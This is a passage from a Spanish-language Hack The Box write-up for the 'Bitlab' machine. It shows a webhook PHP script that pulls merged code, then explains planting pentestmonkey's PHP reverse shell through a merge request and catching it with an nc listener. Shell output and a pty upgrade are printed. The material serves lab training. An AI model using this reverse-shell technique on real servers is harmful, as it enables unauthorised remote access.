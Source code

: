 {{< image src="/images/htb/bitlab/1.6-web_enum.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/bitlab/1.7-web_enum.png" position="center" style="border-radius: 8px;" >}}

```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

Intentando combinar las piezas que tenemos hasta este momento, podemos darnos cuenta del punto de entrada: tenemos que subir un reverse shell en php, teniéndolo mergeado en master (el código de ```index.php``` tiene específicado que un git pull se va a ejecutar si un merge a master sucede), una vez que hacemos eso ejecutamos ```index.php``` desde ```Deployer``` con esto vamos a tener nuestro reverse shell subido al servidor.

## RCE -> www-data -> root

Subimos el siguiente [php reverse shell by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) cambiamos ```$ip = '127.0.0.1'``` y ```$port = 1234``` a nuestra ip y puerto en los que nuestra máquina está escuchando, después lo mergeamos (vamos a ser redirigidos de forma automática a la página para mergearlo).

Ahora que el reverse shell está subido en el servidor, todavía tenemos que ejecutarlo, para eso tenemos que saber cuál es la ruta para hacerlo, si recordamos el proyecto ```Deployer``` este tiene un index.php que imprime "OK" , podemos ver de acceder al path de deployer para ver si se imprime, si lo hace, entonces sabemos que la ruta para nuestro reverse shell será ```http://10.0.0.14/profile/<name of our reverse shell>```:

{{< image src="/images/htb/bitlab/1.rce.png" position="center" style="border-radius: 8px;" >}}

Ahora que sabemos efectivamente que la url mencionada arriba es la que precisamos usar.
Ejecutamos nuestro listener para el reverse shell y lo ejecutamos, con esto tenemos ejecución de código remota:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.114] 57130
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 19:56:40 up 12 min,  0 users,  load average: 0.55, 0.56, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bitlab:/var/www$ pwd
pwd
/var/www
```
Verificamos si tenemos permisos de sudo, y vemos lo siguiente:
